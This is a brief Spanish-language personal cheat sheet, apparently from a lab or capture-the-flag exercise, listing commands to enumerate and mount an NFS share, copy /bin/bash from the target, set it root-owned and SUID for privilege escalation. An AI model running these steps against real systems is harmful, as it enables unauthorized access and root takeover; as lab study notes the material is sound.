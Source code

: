 ```yaml
---
draft: "true"
---
```


NFS (Network File System)

Nmap para cuando rcpbind
`sudo nmap -sC -sN $IP`

Mostrar carpetas de NFS que se pueden compartir
`showmount -e $IP`

Montar una carpeta de NFS
`sudo mount -t nfs $IP:/home /tmp/mount/ -nolock`

`ssh -i <clave> user@IP`

Traerse el /bash de una carpeta interna
`scp -i key_name username@10.10.247.232:/bin/bash ~/Downloads/bash

`sudo chown root bash`

Meter permiso de SUID
`sudo chmod +s bash`